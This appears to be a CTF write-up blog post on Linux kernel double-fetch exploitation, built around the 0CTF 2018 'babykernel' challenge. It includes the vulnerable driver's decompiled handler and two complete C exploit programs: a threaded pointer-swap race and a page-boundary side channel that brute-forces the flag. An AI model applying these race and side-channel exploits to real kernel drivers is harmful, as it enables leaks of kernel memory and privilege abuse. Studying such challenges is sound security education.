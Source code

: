 ```yaml
---
title: "Introduction of Kernel Exploitations: Double Fetch"
date: 2022-05-20 17:52:21
tags: 
layout: default
---
```


# 0x00 Prilogue
I only have little experience with kernel pwn. During the `Intro_to_OS` course, I read a lot of kernel code of `xv6` and learned the kernel systematically. Although `xv6` is a simple system while the `Linux` kernel is much more complex, the knowledge from `xv6` learned helps a lot.

This post would not go too deep into the kernel because I am too weak to do that and I got all the solution ideas from `CTF-wiki`. You can also download the attachments at this [link][1]

# 0x01 Double Fetch

![Double Fetch from CTF-Wiki](/Figures/kernel/double-fetch.png)

Double fetch is a kind of race condition. Most situation the kernel would get the data from user space by `copy_from_user`. But while dealing with complex data structure, the kernel read the data from user space by a pointer. So there is a race condition:
```c
kernel  : get the data and perform some check
users   : change the data
kernel  : perfrom options to the data
```

# 0x02 Double Fetch Attack

[attachment][2]
According to its start script, it's a multi-process challenge. There is only one function in the device:
```c
__int64 __fastcall domain(__int64 a1, int a2, node *a3)
{
  int i; // [rsp+1Ch] [rbp-54h]

  if ( a2 == 0x6666 )
  {
    printk("Your flag is at %px! But I don't think you know it's content\n", flag);
    return 0LL;
  }
  else if ( a2 == 0x1337
         && !_chk_range_not_ok((__int64)a3, 16LL)
         && !_chk_range_not_ok((__int64)a3->ptr, a3->len)
         && a3->len == strlen(flag) )
  {
    for ( i = 0; i < strlen(flag); ++i )
    {
      if ( a3->ptr[i] != flag[i] )
        return 22LL;
    }
    printk("Looks like the flag is not a secret anymore. So here is it %s\n", flag);
    return 0LL;
  }
  else
  {
    return 14LL;
  }
}
```
The function could leak the address of the flag. And We are asked to give a struct which includes a pointer and a inter which represent its length. Before comparing the given string and the true flag, the program checks if the given address is in current task's memspace, which means we can't provide the address of real flag to bypass the comparation. However, we can use `double fetch` bypass the check and comparation because there is no syncronization to avoid race condition.

The basic idea is 
- Brute force the length of the real flag
- Creat a thread to send valid payload
- The main thread keep modify the ptr to point to the real flag
- Stop when retruning 0

```c
#include <string.h>
char *strstr(const char *haystack, const char *needle);
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <string.h>
char *strcasestr(const char *haystack, const char *needle);
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>
#include <stdint.h>
struct node{
        void * ptr;
        size_t len;
}para;
int f;
int flag = 0;
size_t addr = 0;
void atk_func(void* p)
{   
    struct node *tmp = p;
    while(!flag)
        tmp->ptr = addr;    
}

int main()
{
    f = open("/dev/baby",2);
    ioctl(f,0x6666,0);
    system("dmesg > ./log");
    int log = open("./log",0);
    lseek(log,-58,SEEK_END);
    char buf[0x1000]={0};
    read(log,buf,0x10);
    puts(buf);
    addr = 0;
    
    for(int i =0; i<0x10;i++)
    {
        uint8_t tmp = buf[i]-'0';
        if(tmp>9)
        {
            tmp= buf[i]- 0x61+0xa;
        }
        addr+= tmp;
        if(i==0xf)
            break;
        addr = addr<<4;  
    }
    printf("%p\n",addr);
    para.ptr = buf;
    para.len = 33;
    pthread_t tid;
    pthread_create(&tid,NULL,atk_func,&para);
    int res =0;
    for(int i=0;i<0x10000;i++){
        res = ioctl(f,0x1337,&para);
        para.ptr = buf;
        if(!res)
            break;
    }
    flag=1;
    pthread_join(tid,NULL);
    system("dmesg | grep flag{");
}
```
# 0x03 SileChannel Attack
Also, because the device would compare the string byte by byte so that we can place our payload at the end of page to burte force the password byte by byte. 

```c
#include <string.h>
char *strstr(const char *haystack, const char *needle);
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <string.h>
char *strcasestr(const char *haystack, const char *needle);
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>
#include <stdint.h>
struct node{
        void * ptr;
        size_t len;
}para;
int f;
int main()
{
    f = open("/dev/baby",2);
    struct node n132;
    n132.len = 33;
    char * mem = mmap(0x132000,0x1000,7,0x21,0,0);

    size_t res = 0;
    char *target = "flag{T";
    memcpy(mem+0xfff-strlen(target),target,strlen(target));
    n132.ptr = mem+0xfff-strlen(target);
    for(int i=0;i<0x100;i++){
        mem[0xfff] = i;
        printf("%c\n",i);
        res = ioctl(f,0x1337,&n132);
    }
    
}
```
# 0x04 Summary

These two tricks could be used on kernel string comparation challenges.

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://github.com/n132/attachment/tree/main/0CTF_2018/babykernel

